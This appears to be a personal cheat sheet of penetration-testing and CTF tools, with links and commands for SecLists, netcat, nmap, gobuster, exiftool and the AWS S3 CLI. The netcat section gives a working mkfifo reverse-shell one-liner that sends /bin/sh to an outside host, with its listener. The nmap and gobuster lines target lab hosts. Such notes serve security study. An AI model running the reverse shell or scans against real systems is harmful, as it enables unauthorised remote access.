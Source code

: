 ```yaml
---
Title: Tools
Description:
---
```




## Project

+ [danielmiessler/SecLists](https://github.com/danielmiessler/SecLists) \
  SecLists is the security tester's companion. It's a collection of multiple types of lists used during security assessments, collected in one place. List types include usernames, passwords, URLs, sensitive data patterns, fuzzing payloads, web shells, and many more.

## CLI Tools

### exiftool  

```shell
exiftool XXX.jpg
```

### base64  

ex: `echo "XXX" | base64 -d`

### convert ASCII values into ASCII characters  

`echo "XXX" | awk '{ printf("%c" ,$0); }'`

### [Rockstar](https://codewithrockstar.com/online) \

Rockstar is a computer programming language designed for creating programs that are also hair metal power ballads.

### nc

Netcat is a versatile utility for working with TCP or UDP data.

``` shell
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 172.18.0.1 1337 > /tmp/f; rm /tmp/f
nc -nlvp 1337
```

+ [Netcat（Linux nc 指令）網路管理者工具實用範例](https://blog.gtwang.org/linux/linux-utility-netcat-examples/)

### hydra

### nmap

+ faster: `sudo nmap --top-ports 3000  -F -sS -sC -sV -n -T4 ${ip}`

> -F: Fast mode - Scan fewer ports than the default scan
>
> -sS (TCP SYN scan)
> SYN scan is the default and most popular scan option for good reasons. It can be
> performed quickly, scanning thousands of ports per second on a fast network not
> hampered by restrictive firewalls.
>
> -sC: Performs a script scan using the default set of scripts. It is equivalent to --
> script=default. Some of the scripts in this category are considered intrusive and
> should not be run against a target network without permission.
>
> -sV: Enables version detection, which will detect what versions are running on what port.
>
> -n (No DNS resolution)
>
> -T4 prohibits the dynamic scan delay from exceeding 10 ms for TCP ports

### gobuster

directory/file enumeration mode

+ `gobuster dir --url http://10.129.14.195/ --wordlist ../../tools/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -x php,html`

VHOST enumeration mode

+ `gobuster vhost -w ../../tools/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u http://thetoppers.htb`

### s3

+ `aws configure`
+ `aws s3 ls`
